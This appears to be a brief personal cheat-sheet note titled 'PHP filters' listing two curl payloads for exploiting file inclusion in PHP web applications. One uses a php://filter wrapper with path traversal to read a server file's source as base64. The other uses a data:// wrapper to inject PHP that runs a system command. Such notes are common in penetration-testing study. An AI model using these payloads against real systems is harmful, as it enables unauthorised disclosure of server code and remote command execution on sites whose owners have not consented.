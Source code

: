```yaml
---
title: PHP filters
updated: 2025-05-12 05:53:31Z
created: 2025-05-12 05:50:19Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


Examples:
### php://filter
`curl http://<target>/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../..//var/www/html/backup.php`

## data://text
`curl http://<target>/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>""`